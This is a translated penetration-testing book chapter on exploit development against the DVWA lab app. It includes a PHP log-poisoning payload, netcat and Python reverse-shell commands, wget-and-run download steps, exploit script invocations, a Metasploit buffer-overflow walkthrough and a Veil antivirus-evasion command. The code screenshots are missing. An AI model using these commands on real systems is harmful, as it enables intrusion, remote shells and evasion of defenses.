








# 十三、利用开发

在本章中，我们将探讨**开发**。我们将了解如何使用 Python 开发自定义漏洞利用。尽管我们的主要关注点是在 Python 中开发漏洞，但我们也将看到如何在 Ruby 中开发漏洞，以扩展 Metasploit 框架的功能。

漏洞利用只不过是一段代码，编写该代码是为了利用漏洞，以便同一段代码可以在不同的环境中重用。编写漏洞攻击的目的是确保代码稳定，并使攻击者获得他们想要的控制。应该注意的是，针对特定类型的漏洞开发利用漏洞。首先了解漏洞以及利用漏洞所需的手动步骤非常重要。一旦我们清楚地了解了这一点，我们就可以开始自动化整个过程并开发一个漏洞。

本章将介绍以下主题：

*   对基于 web 的漏洞进行脚本攻击。
*   开发 Metasploit 模块以利用网络服务。
*   对外壳代码进行编码以避免检测。

# 对基于 web 的漏洞进行脚本攻击

在本节中，我们将使用一个**该死的易受攻击 Web 应用**（**DVWA**的示例。我们将编写一个本地和远程文件包含漏洞攻击，并确保通过执行该漏洞攻击获得一个反向 shell。众所周知，DVWA 有很多漏洞，包括**本地文件包含**（**LFI**）和**远程文件包含**（**RFI**）。

本地文件包含是 PHP 应用中常见的一类漏洞，由不正确使用`include()`和`require()`函数引入。`include()`函数用于在当前 PHP 文件中包含一个 PHP 模块，从中调用该模块。在某些情况下，开发人员将要包含的文件名作为 web 应用的输入参数，攻击者可能会误用该文件名。攻击者可以调整输入参数，并可以读取他们可能无权访问的系统文件，如`/etc/passwd`。可以提升该漏洞以从服务器获取反向外壳。如果攻击者能够读取服务器的日志文件（通常位于`/var/log/apache2/access.log`路径），并且攻击者发送虚假的`GET`请求，如`http://myvulsite.com?id=<?php shell_exec($_GET['cmd']) ?>`，则应用通常会返回一条错误消息，说明请求的 URL/资源不存在。但是，这将记录在服务器的`access.log`文件中。在 LFI 的帮助下，如果攻击者在随后的请求中试图将访问日志文件加载为`http://myvulsite.com/admin.php?page=/var/log/appache2/access.log?cmd=ifconfig%00`，它将加载日志文件，其中包含一个 PHP 代码片段。这将由 PHP 服务器执行。由于攻击者正在指定 CMD 参数，这将在 shell 上执行，导致在服务器上执行意外代码。RFI 漏洞更容易执行。让我们通过启动 DVWA 应用并尝试手动利用 LFI 漏洞，将到目前为止讨论的内容付诸实践。

需要注意的是，我们已经在[第 12 章](12.html)、*逆向工程 Windows 应用*中看到了如何使用 Python 编写网络服务漏洞攻击，我们在其中编写了一个自定义 Python 漏洞攻击来利用 SLmail 服务。请参阅该章，以更新您关于针对缓冲区溢出的基于服务的漏洞利用开发的知识。

# 手动执行 LFI 攻击

让我们首先启动 Apache 服务器：

```
service apache2 start
```

让我们尝试手动浏览应用，看看漏洞所在：



前一屏幕中浏览的 URL 为`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=include.php`。可以看出，请求的 URL 有一个页面参数，它将要包含的页面作为参数。如果我们看一下应用的源代码，我们可以看到`include()`函数的实现如下：



前面的屏幕截图将文件变量初始化为在`GET`请求中获得的参数，而不进行任何过滤

下一个屏幕截图在`include()`函数下使用相同的文件变量，如下所示：


如上所述，`include()`函数包括`$file`变量的任何值。让我们尝试利用此漏洞，通过访问以下 URL 来读取我们可能无法访问的任何系统文件，例如`/etc/passwd`：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/etc/passwd`


现在让我们进一步提升攻击，并尝试从 LFI 漏洞中获取一个外壳。让我们使用`Netcat`毒害日志文件，以便从服务器获取外壳。

应该注意的是，我们不应该试图通过 URL 毒害日志文件。这样做会将我们的有效负载编码为 URL 编码，使攻击毫无用处。

让我们首先尝试查看 Apache 日志文件的内容，并将其加载到浏览器窗口中，URL 位于：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log`：


从前面的屏幕截图可以看出，日志文件的内容显示在页面上。现在，让我们继续使用`netcat`对日志文件进行毒害。首先，按如下方式启动 Netcat:`nc 192.168.1.102 80`。启动后，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`



答对 了我们现在已对日志文件下毒。现在让我们试着发出一个命令，比如`ifconfig`，看看它是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。

注意`cmd`参数。我们正在发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>, translating to <?php echo shell_exec(ifconfig)?>`

以下屏幕截图中突出显示的区域显示我们的命令已成功执行：


现在，让我们尝试从相同的`cmd`参数获取一个反向 shell。我们将使用`netcat`获得反向外壳。如果服务器上没有安装 netcat，我们也可以使用 Python 来获取 shell。让我们看看两者都在起作用。

# 使用 Netcat 的反向 shell

本例中的 URL 和命令如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`侦听器，用于侦听端口`4444`上的传入连接。让我们通过在不同的终端上执行`nc -nlvp 4444`命令来实现这一点。现在，浏览 URL 并查看是否获得 shell：



浏览此 URL 后，让我们尝试查看生成的`netcat`侦听器，看看是否获得 shell：


可以验证的是，我们得到了一个低特权的 shell，`www-data`。

# 用 Python 反转 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 获得 shell。由于底层服务器是基于 Linux 的，因此默认情况下，会在其上安装 Python。因此，我们将修改我们的利用命令，如下所示：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

如图所示，我们将创建一个用 Python 编写的攻击文件，并在攻击者的机器上提供该文件。因为，对于当前示例，攻击者和受害者都在同一台机器上，所以 URL 为`http://192.168.1.102`。利用漏洞文件的内容如下所示：



下载攻击文件将完成攻击过程的第一步。第二步是执行它并返回侦听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们来看看这个动作：

1.  下载 Python 漏洞并将其保存在`/tmp`文件夹中：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`
2.  验证是否已成功保存：


3.  在`444`：`nc -nlvp 4444`上启动`netcat`侦听器。
4.  启动调用`exp.py`脚本以连接回攻击者框的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

现在让我们看看我们的侦听器是否已获得 shell：


正如我们从前面的截图中看到的，我们已经成功地获得了外壳。

# 开发利用开发（LFI+RFI）

到目前为止，我们已经研究了如何手动利用 LFI 漏洞。让我们继续并尝试开发一个通用漏洞，该漏洞将利用此应用和其他相同应用的 LFI 漏洞。在本节中，我们将看到如何编写一个令人敬畏的漏洞，利用 DVWA 应用中的 RFI 和 LFI 漏洞。虽然此漏洞是为 DVWA 应用编写的，但我已尝试使其通用化。通过某些调整，我们还可以在可能存在 LFI 和 RFI 漏洞的其他应用中尝试。

让我们安装先决条件：

```
pip install BeautifulSoup
pip install bs4
pip install selenium
sudo apt-get install libfontconfig
apt-get install npm
npm install ghostdriver
wget https://bitbucket.org/ariya/phantomjs/downloads/phantomjs-2.1.1-linux-x86_64.tar.bz2
tar xvjf phantomjs-2.1.1-linux-x86_64.tar.bz2
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/bin/
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/local/bin/
```

安装`phantomjs`后，我们需要在控制台上执行以下操作：**`unset QT_QPA_PLATFORM`**。这用于处理`phantomjs`在 Ubuntu 版本 16.04 上使用时抛出的错误，如下所示：`Message: Service phantomjs unexpectedly exited. Status code was: -6`。

# LFI/RFI 攻击代码

让我们来看看下面的代码，这些代码将利用 DVWA 的 LFI/RFI 漏洞：


在以下代码段中，第 65-74 行检查要测试的应用是否需要对要利用的漏洞进行身份验证：


如果需要身份验证，则在 Selenium Python 浏览器/驱动程序上设置用户提供的 cookie 值，并使用 cookie 数据调用 URL 以获得有效会话：


90 和 105 之间的行用于控制 LFI 漏洞工作流。本节包含我们手动执行的一系列步骤。在第 91 行中，我们准备了恶意 URL，该 URL 将毒害日志文件，并在`access.log`文件中放置一个 PHP 代码片段。在第 93 行中，我们将该恶意 URL 放在一个名为`exp.txt`的文本文件中，并要求 Netcat 从该文件中获取输入。记得我们之前在毒害`access.log`文件时使用了`netcat`；这里将重复相同的操作。在第 97 行中，我们要求`netcat`连接到端口`80`上的受害者服务器，从`exp.txt`文件中获取一个输入，并将该输入发送到受害者服务器，这样日志就会中毒。我们通过创建一个 bash 脚本`exp.sh`来实现这一点。在第 99 行中，我们调用这个 bash 脚本，它将依次调用`netcat`并导致`netcat`从`evil.txt`文件中获取输入，从而毒害日志。在第 103 行中，我们设置了利用 URL，我们将对其进行模拟 selenium 浏览器访问，以便为我们提供一个反向 shell：


在第 115 行中，我们正在调用一个进程，该进程将导致浏览器使用该进程的`start()`方法（在第 116 行下）向有漏洞的页面发出有效负载请求。但在实际访问该漏洞之前，我们需要设置一个 netcat 侦听器。第 119 行设置了一个 Netcat 侦听器，我们引入了 5 秒的时间延迟，从处理方法`send_exp()`的定义中可以看出，这给了 Netcat 启动的时间。一旦启动，有效载荷通过第 61 行下的`send_exp()`方法交付。如果一切顺利，我们的听者就会得到答案。

第 107-113 行处理漏洞的 RFI 部分。为了利用 RFI，我们需要在攻击者的机器上创建一个邪恶的文件`evil.txt`，该文件将提供 PHP 负载。一旦创建，我们需要将其放置在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效负载交付 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们交付有效负载，然后启动 netcat 侦听器。

前面的代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 攻击

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

前面的命令将生成输出，如以下屏幕截图所示：


可以看出，我们已经成功获得了一个低特权外壳`www-data`。

# 执行 RFI 漏洞攻击

要执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```

前面的命令将生成输出，如以下屏幕截图所示：


正如我们所见，我们也成功地获得了 RFI 漏洞的外壳。

# 开发 Metasploit 模块以利用网络服务

在本节中，我们将了解如何使用 Metasploit 漏洞模块来攻击给定的漏洞。在本例中，我们将重点关注名为*Crossfire*的游戏应用的缓冲区溢出漏洞。为了编写自定义 Metasploit 模块，我们需要将它们放在一个特定的目录中，因为当我们在 Metasploit 中使用`use exploit /....`命令时，默认情况下，框架会在默认 Metasploit 剥削目录中查找可用的模块。如果未在此处找到给定的漏洞，则会搜索扩展模块目录，该目录位于以下路径：`/root/msf4/modules/exploits`。让我们创建路径和自定义目录。我们将打开 Kali 虚拟机并运行以下命令：

```
mkdir -p ~/.msf4/modules/exploits/custom/cf
cd ~/.msf4/modules/exploits/custom/cf
touch custom_cf.rb
```

前面的命令将在`/root/.msf4/modules/exploits/custom/cf`目录中创建一个名为`custom_cf`的文件。

现在，让我们编辑`custom_cf.rb`文件，并在其中放置以下内容：




前面提到的代码片段非常简单。它试图利用 Crossfire 应用中存在的缓冲区溢出漏洞进行攻击。Metasploit 为其漏洞模块定义了一个模板，如果我们必须在 Metasploit 中编写一个模块，我们需要根据需要调整模板。前面的模板用于缓冲区溢出类漏洞。

在前面的章节中，我们详细研究了缓冲区溢出。根据我们所了解的情况，我们可以说，要利用缓冲区溢出漏洞进行攻击，攻击者必须知道以下几点：

*   缓冲区空间可以容纳的有效负载大小。
*   堆栈的返回地址，必须由注入漏洞代码的缓冲区地址覆盖。实际返回地址可能会有所不同，但可以计算有效负载的偏移量，在该偏移量之后，返回地址将被覆盖。一旦我们有了偏移量，我们就可以将内存位置的地址放在我们能够注入漏洞的地方。
*   应用识别为坏字符的字符集，这可能会妨碍我们利用漏洞的执行。
*   所需的填充量。
*   架构和操作系统细节。

为了让攻击者获得上述项目，他们会执行一系列步骤，包括模糊化、偏移量计算、返回地址检查、坏字符检查等。如果已知前面的值，攻击者的下一步通常是生成一个编码的有效负载，并将其发送到服务并获得一个反向外壳。如果前面的值未知，Metasploit 将提供一个缓冲区溢出模板，在该模板中，可以插入并使用这些值，而无需我们从头开始编写自定义代码。

讨论中的应用 Crossfire 已被模糊化并离线调试。根据模糊结果，获取的 EIP 返回地址或值为`0X0807b918`。换句话说，这意味着如果缓冲区溢出，利用漏洞代码将被放置在具有以下地址的位置：`0X0807b918`。此外，如上所述，指定的填充量为 300（空格）。我们还指定了坏字符：`\x00\x0a\x0d\x20`。除此之外，我们还指定平台为 Linux。

请注意：坏字符是被测试程序的字符集无法识别的字符，因为它会使程序以意外的方式运行。为了找出正在测试的底层软件的常见错误字符，最成功的方法是反复试验。我通常要做的是找出常见错误字符，将所有唯一字符发送到应用，然后使用调试器检查在寄存器级别更改的字符。那些被改变的可以被编码和避免。

因此，在第 43 行中，当我们调用`payload.invoke`命令时，Metasploit 在内部创建一个反向 MeterMeter TCP 负载并对其进行编码，该负载在端口`4444`处返回一个 shell。让我们试着看看这一点：

1.  首先，让我们安装并启动 crossfire 应用。crossfire 应用的易受攻击版本可在以下 URL[找到 https://osdn.net/projects/sfnet_crossfire/downloads/crossfire-server/1.9.0/crossfire-1.9.0.tar.gz/](https://osdn.net/projects/sfnet_crossfire/downloads/crossfire-server/1.9.0/crossfire-1.9.0.tar.gz/) 。使用以下命令下载并解压缩它：

```
 tar zxpf crossfire.tar.gz
```

2.  然后，按如下方式启动易受攻击的服务器：



现在继续，开始 Metasploit。导出我们创建的模块，并尝试利用易受攻击的服务器：



正如我们所见，我们开发的漏洞工作完美无瑕，为我们提供了受害者机器的反面外壳，在我们的案例中，它与我们正在使用的机器是同一台机器。

# 对外壳代码进行编码以避免检测

现在，假设我们已经在正在测试的底层服务中发现了一个漏洞。但是，在这种情况下，该机箱已安装防病毒软件。任何好的防病毒软件都会包含已知漏洞的所有特征码，通常几乎所有 Metasploit 漏洞模块的特征码都会出现。因此，我们必须使用一种方法来规避防病毒检测。这意味着我们需要使用某种编码或任何其他方法来传递有效负载，以避免 AV 检测。我们有三种不同的方法可以做到这一点：

1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义漏洞。此方法非常有用，因为自定义攻击不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共漏洞，并对其进行大量修改，以更改其生成的签名。我们在 web 开发用例中开发的开发都是从零开始编写的，因此理论上任何 AV 都不应该接受它们。

2.  第二种方法是将有效负载/漏洞注入底层系统的进程内存中。这样做将在内存中执行代码，大多数防病毒软件都不会检测到这一点。
3.  第三种方法是利用编码来防止检测。在本节中，我们将看到如何利用一个非常强大的编码框架（称为 VEIL）来生成可能逃避 AV 检测的有效负载。

# 下载和安装面纱

应该注意的是，Veil 预装了最新版本的 Kali Linux。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

成功安装 Veil 后，生成 Veil 编码的有效载荷是一项非常简单的任务。当使用 veil 时，在幕后发生的事情是，它试图使利用代码变得神秘和随机，从而使用于基于签名的检测的 AV 可以从利用的随机性和神秘性中被愚弄。有两种方法可以做到这一点。一种方法是使用 veil 提供的交互式 shell。这可以通过键入命令`veil`，然后在规避模块下选择有效载荷来调用。另一个更简单的选项是在命令行中指定所有选项，如下所示：

```
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```

上一个命令将使用 Veil 的有效载荷编号`41`对 Metasploit 模块`windows/meterpreter/reverse_tcp`进行编码。这将产生以下输出：


前面的屏幕截图显示了将由 Veil 编码的漏洞，该漏洞可以传递给受害者，以查看它是否能够逃避防病毒软件。如果没有，那么我们必须使用交互式版本的 Veil 来调整有效负载参数，以生成更独特的签名。您可以从*进一步阅读*部分中共享的链接中找到更多关于面纱的信息。

# 总结

在本章中，我们学习了如何开发定制的利用 web 和网络服务的方法。我们还讨论了如何从防病毒软件中规避攻击。此外，我们还研究了各种 web 漏洞，如 LFI 和 RFI，并讨论了如何提升这些漏洞以从受害者那里获得反向外壳。重要的是要理解，开发利用漏洞需要很好地理解潜在的漏洞，我们应该始终尝试进行可重用的通用利用漏洞。请随意修改我们讨论过的利用漏洞代码，使其成为通用代码，并在其他应用中试用。

在下一章中，我们将走出渗透测试生态系统，进一步了解**安全运营中心**（**SOC**）或网络安全监控生态系统。我们将了解什么是网络威胁情报，以及如何利用它来保护组织免受潜在威胁。我们还将了解网络威胁情报如何通过 SIEM 工具实现自动化，以补充检测能力。

# 问题

1.  自定义漏洞利用还可以利用哪些基于 web 的漏洞？
2.  如果一个攻击向量失败，我们如何改进开发代码来尝试各种其他可能性？

# 进一步阅读

*   Python 中的漏洞开发：[https://samsclass.info/127/127_WWC_2014.shtml](https://samsclass.info/127/127_WWC_2014.shtml)
*   Python 开发援助：[https://github.com/longld/peda](https://github.com/longld/peda)
*   创建 Metasploit 模块：[https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)
*   面纱：[https://www.veil-framework.com/veil-tutorial/](https://www.veil-framework.com/veil-tutorial/)